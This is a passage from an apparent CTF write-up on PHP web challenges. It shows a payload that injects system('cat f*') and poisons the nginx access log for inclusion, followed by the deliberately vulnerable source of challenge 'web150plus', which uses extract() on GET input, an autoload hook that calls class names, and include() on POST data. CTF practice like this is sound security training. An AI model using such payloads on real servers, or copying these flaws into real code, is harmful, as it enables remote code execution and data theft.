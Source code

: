 payload:

```
GET ?isVIP=true&1=system('cat f*');
POST ctf=/var/log/nginx/access.log
```



#### web150plus

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```